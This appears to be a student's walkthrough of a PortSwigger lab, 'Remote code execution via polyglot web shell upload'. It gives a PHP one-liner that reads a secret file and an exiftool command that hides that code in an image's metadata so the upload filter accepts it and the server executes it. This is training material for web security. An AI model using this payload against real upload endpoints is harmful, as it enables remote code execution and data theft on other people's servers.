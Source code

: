 Title: Remote code execution via polyglot web shell upload
Level: PRACTITIONER
Desc:  This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.
To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.
You can log in to your own account using the following credentials: wiener:peter 

# Walkthrough:
basic php shell : `<?php echo file_get_contents('/home/carlos/secret'); ?>`
adding basic php shell in metadata of an image (polyglots)

`exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" cat.jpg -o polyglot.php`

After uploading image (php file) I go to `https://0a7a00ad03f298e48068e9da003100b2.web-security-academy.net/files/avatars/polyglot.php`
and then I look for START

<img width="516" height="147" alt="image" src="https://github.com/user-attachments/assets/acd29866-3af5-4de9-b9b5-943f3070c96f" />

